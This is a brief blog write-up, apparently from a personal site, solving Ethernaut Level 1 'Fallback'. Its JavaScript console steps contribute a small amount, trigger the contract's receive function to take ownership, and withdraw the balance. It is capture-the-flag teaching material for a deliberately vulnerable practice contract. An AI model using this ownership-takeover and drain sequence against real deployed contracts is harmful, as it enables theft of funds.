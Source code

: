 +++
title = 'Ethernaut Level 1 - Fallback'
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'First level to introduce interacting with the Levels'
date = 2024-08-04
tags = [ 'writeups' , 'blockchain', 'ethernaut']
+++
1. Use the contribute function to send eth
2. Use standard function to send eth

```js
// Send via Contract ABI
contract.contribute({value:1});
// Check if eth is send
Number(await contract.getContribution());
// Triger `receive` function via normal transaction
sendTransaction({from:player, to:contract.address, value:1});
// 4. PROFIT!!!!
await contract.withdraw();
```